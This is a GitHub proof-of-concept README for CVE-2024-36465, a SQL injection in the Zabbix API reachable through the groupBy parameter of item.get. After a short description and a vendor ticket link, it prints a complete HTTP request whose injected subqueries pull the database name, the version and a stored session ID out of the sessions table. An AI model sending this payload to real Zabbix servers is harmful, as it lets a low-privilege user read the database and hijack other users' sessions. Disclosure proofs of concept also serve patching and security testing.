 # CVE-2024-36465-Poc

## SQL injection in Zabbix API (CVE-2024-36465)

### Description
A low privilege (regular) Zabbix user with API access can use SQL injection vulnerability in include/classes/api/CApiService.php to execute arbitrary SQL commands via the groupBy parameter.

### Link
https://support.zabbix.com/browse/ZBX-26257


# Poc

```
POST /api_jsonrpc.php HTTP/1.1
Host: <Host>
Authorization: Bearer {{hash}}
Content-Length: 240
Content-Type: application/json;charset=UTF-8

{
 "jsonrpc": "2.0",
    "method": "item.get",
    "params": {
        "output": ["itemid", "name"],
        "groupBy": ["hostid,(select database()),(select version()),(SELECT sessionid FROM sessions LIMIT 0,1)"]
    },
    "id":0
}

```
![image](https://github.com/user-attachments/assets/f4543415-fc6e-4e13-860c-481c89b2c58d)
